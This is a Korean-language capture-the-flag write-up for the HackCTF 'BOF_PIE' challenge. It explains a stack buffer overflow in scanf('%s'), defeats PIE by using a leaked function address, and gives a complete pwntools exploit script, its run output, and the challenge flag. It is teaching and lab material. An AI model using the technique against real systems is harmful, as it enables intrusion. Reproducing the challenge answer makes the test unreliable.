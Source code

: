 # BOF_PIE

---

우선 `main()`의 코드는 다음과 같다.

```c
    int __cdecl main(int argc, const char **argv, const char **envp)
    {
      welcome();
      puts("Nah...");
      return 0;
    }
```
`welcome()`이란 함수를 부르고 있다. `welcome()`의 코드를 보자.
```c
    int welcome()
    {
      char v1; // [esp+6h] [ebp-12h]
    
      setvbuf(stdin, 0, 2, 0);
      setvbuf(stdout, 0, 2, 0);
      puts("Hello, Do you know j0n9hyun?");
      printf("j0n9hyun is %p\n", welcome);
      return _isoc99_scanf("%s", &v1);
    }
```
여기서는 `welcome()`함수의 주소를 주고 있다. 그리고 v1을 입력받는데 이때 bufferoverflow가 일어난다.

다음 함수를 호출하면 flag를 얻을 수 있다.

```c
void j0n9hyun()
{
  char s; // [esp+4h] [ebp-34h]
  FILE *stream; // [esp+2Ch] [ebp-Ch]

  puts("ha-wi");
  stream = fopen("flag", "r");
  if ( stream )
  {
    fgets(&s, 40, stream);
    fclose(stream);
    puts(&s);
  }
  else
  {
    perror("flag");
  }
}
```

때문에 `welcome()`함수에서 일어나는 bufferoverflow를 이용하여 ret주소를 다음 함수로 덮는다면 flag를 얻을 수 있다.

하지만 PIE보호기법이 걸려있었다.

```gdb
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : ENABLED
RELRO     : Partial
```

때문에 `welcome()`의 주소를 이용하여 offset을 계산해서 `j0n9hyun()`의 주소를 구하여야 한다.

이를 위한 offset을 우선 구해보자.

---
```gdb
    gdb-peda$ p welcome
    $1 = {<text variable, no debug info>} 0x909 <welcome>
    gdb-peda$ p j0n9hyun
    $2 = {<text variable, no debug info>} 0x890 <j0n9hyun>
```
**welcome_offset=0x909** <br>
**j0n9hyun_offset=0x890**

얻은 `welcome()` 주소에 welcome_offset을 뺀다면 libc_base를 얻을 수 있다. 그리고 그 libc_base에 j0n9hyun_offset을 더하면 `j0n9hyun()`의 주소를 알 수 있다. `welcome()`에서 s의 위치가 ebp-0x12이기 때문에 payload는 다음과 같이 될 것이다.

**[dummy 22bytes]+[address of j0n9hyun()]**

다음과 같이 익스코드를 짜서 flag를 얻을 수 있었다.
```python
	from pwn import*
    
    p=remote('ctf.j0n9hyun.xyz',3008)
    
    welcome_offset=0x909
    j0n9hyun_offset=0x890
    
    p.recvuntil('j0n9hyun is ')
    
    welcome_address=int(p.recv(10),16)
    libc_base=welcome_address-welcome_offset
    j0n9hyun_address=libc_base+j0n9hyun_offset
    
    
    payload='A'*22
    payload+=p32(j0n9hyun_address)
    p.sendline(payload)
    
    p.interactive()
```
flag는 다음과 같다.

```bash
    sjy0175@sjy0175-VirtualBox:~/Desktop/HackCTF/Pwnable/9.BOF_PIE$ vi ex.py
    sjy0175@sjy0175-VirtualBox:~/Desktop/HackCTF/Pwnable/9.BOF_PIE$ python ex.py
    [+] Opening connection to ctf.j0n9hyun.xyz on port 3008: Done
    [*] Switching to interactive mode
    
    ha-wi
    HackCTF{243699563792879976364976468837}
```
**flag: HackCTF{243699563792879976364976468837}**
